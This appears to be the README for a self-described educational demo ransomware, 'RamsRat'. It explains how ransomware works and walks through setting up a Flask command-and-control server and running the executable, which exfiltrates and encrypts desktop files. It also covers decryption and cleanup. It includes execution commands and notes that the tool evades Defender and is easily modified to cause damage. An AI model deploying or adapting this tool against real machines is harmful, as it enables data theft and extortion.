 # RamsRat-Ransomware
A fake Ransomware to understand exactly how it works.

**DISCLAIMER: I am not responsible for anything you do with this script. I provide this script and my pseudo-knowledge for the sole purpose of educating, not destroying.**

TRADUCTION BY DEEPL.

[Version-Française](https://github.com/Raaatus/RamsRat-Ransomware/blob/main/readme-fr.md)

To understand how ransomware works, it's important to note that the following is a general description. Ransomware can vary considerably depending on the specific features of each virus.

In general, ransomware :

- Is executed by the host or attacker on the target machine.
- Creates a key (often 32-bit, which can take a long time to break).
- Sends files to a command and control (C2) server.
- Encrypts files with the key.
- Demands a ransom.

## Ransomware

Ransomware is scripting software that executes code to encrypt personal data. It may or may not extract this data to a remote server, so that even if you pay the ransom, the attackers can still use it.

You are then asked to pay in exchange for the decryption key (and sometimes a decryptor).

The end of the story depends solely on the good faith of the person who encrypted your computer (lol).

## C2 server

A C2 (command and control) server is mainly used to manage the victims of your payloads, a bit like sessions in Metasploit.
Here, it's simply a Python script that allows you to receive files via a link.


## Build requirements

- A Windows client (you can use your own Windows, the script is harmless, or use a virtual machine).
-  [Visual Studio Community](https://visualstudio.microsoft.com/fr/downloads/)
  
## Prerequisites Started

- A Windows client (you can use your own Windows, the script is harmless, or use a virtual machine).
- [Python 3](https://www.python.org/downloads/) (on Windows or Linux, it doesn't matter).
- [.NET Desktop Runtime 6.0.31](https://dotnet.microsoft.com/en-us/download/dotnet/6.0)

## How it works


**<!>  Encrypts only files on the desktop, not folders or other locations.**

- Run by user.
- Copies files from the Desktop to: `Desktop/DecryptFiles`.
- Sends desktop files to C2 server.
- Change wallpaper.
- Executes a `readme.txt`.
- Encrypts the desktop files with a 32-bit key.

The result is a completely encrypted desktop.

The copied files are in `Bureau/DecryptFiles`.

Files on the control server (C2) are decrypted and downloaded.

As this is a demonstration, no data persistence or corruption will occur.

Finally, a decryptor `Decryptor.exe` and the 32-bit key will be needed if you want to decrypt the data on the Desktop.

**Again, there's a copy of this data in `Desktop/DecryptFiles`, so you don't have to decrypt the desktop files. You can simply copy them.**

## Get Started

As mentioned earlier, this script is theoretically harmless. However, it can easily be modified to cause damage. Use only the script from this [GITHUB](https://github.com/Raaatus/RamsRat-Ransomware).

The C2 server is independent of the ransomware. It can be remote or local, on another machine or on the machine to be encrypted.

### C2 server installation

- Installation of dependencies :
  - Windows : 
    - [Python 3](https://www.python.org/downloads/) 
    ```
    pip install Flask
    ```
  - Linux
    ```
    sudo apt install python3
    pip install Flask
    ```

- Launch the c2 server. **(If it's on Windows, don't put the script on the desktop)**

  ![plot](./img/serverc2.png)

### Ransomware execution

Defender ?

![plot](./img/defenderanalyse.gif)


Defender is probably being fooled by the build, but I'm disappointed that it doesn't even detect file encryption on your PC.

- After you've built or downloaded the release, you end up with a `Ramsom` folder.
- Place it anywhere on the machine you want to “encrypt”.

- Run cmd to specify the C2 server and port. Type `cmd` at the top of the address bar.
  ![plot](./img/cmdexec.png)


- Finally, execute the command 
     `RamsRat.exe ip-server-c2 port-server-c2 ` == 
     `RamsRat.exe 10.0.24.55 5000`

- At the end of execution : 
  - The desktop is encrypted and the wallpaper changed:
  
    ![plot](./img/Execution.gif)

  - Readme opened with instructions (Fake):

 ![plot](./img/encryptdesk.png)

  - The files have been sent to C2 and are readable: 

    ![plot](./img/filesc2.png)

  

- We still find our files copied to `Bureau/DecryptFiles`. As well as the decryption key:

    ![plot](./img/decryptfiles.png)

  
### File decryption

With the Ransomware I supply the Decryptor.exe.

It is supplied with the path of the encrypted folder and the key. Here it's simple: both are on the desktop.

Use cmd and the command.


```
Decryptor.exe <encryptedFolderPath> <keyFilePath>

Decryptor.exe C:\Users\ratus\Desktop C:\Users\ratus\Desktop\DESKTOP-S3D0A9K.encryptionkey.key
```

![plot](./img/decryption.gif)


### Cleaning 

- With decryptor : 
  - Decrypt your data
  - Delete all .ratus files
  - Delete `DecryptFiles` folder
  - Delete readme
  - Delete project (optional)
- Without decryptor :
  - Copy files from `DecryptFiles` to Desktop
  - Delete .ratus
  - Delete readme
  - Delete `DecryptFiles
  - Delete project (optional)
- Serverc2 :
  - Delete python script
  - ipip unistall Flask
